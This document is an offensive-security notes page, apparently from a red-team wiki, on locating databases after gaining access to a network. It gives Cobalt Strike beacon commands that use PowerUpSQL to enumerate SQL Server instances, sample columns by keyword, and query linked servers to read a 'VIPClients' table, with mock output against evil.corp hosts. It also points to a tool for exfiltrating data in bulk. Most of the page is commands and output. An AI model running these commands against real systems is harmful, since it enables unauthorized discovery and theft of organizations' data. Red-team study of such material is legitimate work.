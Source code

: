 # Identify Databases
[[Tools/PowerUpSQL]] can be used with the cmdlet `Get-SQLColumnSampleDataThreaded` in order to search one or more instances for databases that contain particular keywords in the column names.

```beacon
beacon> powershell Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLColumnSampleDataThreaded -Keywords "project" -SampleSize 5 | select instance, database, column, sample | ft -autosize

Instance                     Database Column      Sample         
--------                     -------- ------      ------         
srv1.edu.evil.corp,1433 master   ProjectName Build Can       
srv1.edu.evil.corp,1433 master   ProjectName Fresh Boat     
srv1.edu.evil.corp,1433 master   ProjectName Fine Apple
```
Traversing is not possible! It only searches the available instances.

To search over the links use `Get-SQLQuery`.
```beacon
beacon> powershell Get-SQLQuery -Instance "srv1.edu.evil.corp,1433" -Query "select * from openquery(""sql1.evil.corp"", 'select * from information_schema.tables')"

TABLE_CATALOG TABLE_SCHEMA TABLE_NAME            TABLE_TYPE
------------- ------------ ----------            ----------
master        dbo          spt_fallback_db       BASE TABLE
master        dbo          spt_fallback_edu      BASE TABLE
master        dbo          spt_fallback_usg      BASE TABLE
master        dbo          MSreplication_options BASE TABLE

beacon> powershell Get-SQLQuery -Instance "srv1.edu.evil.corp,1433" -Query "select * from openquery(""sql1.evil.corp"", 'select column_name from master.information_schema.columns')"

column_name
-----------
City
Name
Car
Dog

beacon> powershell Get-SQLQuery -Instance "srv1.edu.evil.corp,1433" -Query "select * from openquery(""sql1.evil.corp"", 'select top 5 City from master.dbo.VIPClients')"

City  
---------  
Heidelberg
Mannheim
Frankfurt
```

[Egress Assess](https://github.com/FortyNorthSecurity/Egress-Assess) can be used to exfiltrate lots of data at once


## Tools
########
########


```meta
ttp: T1046
requirements: 
results: database
description: Identify databases within the network
```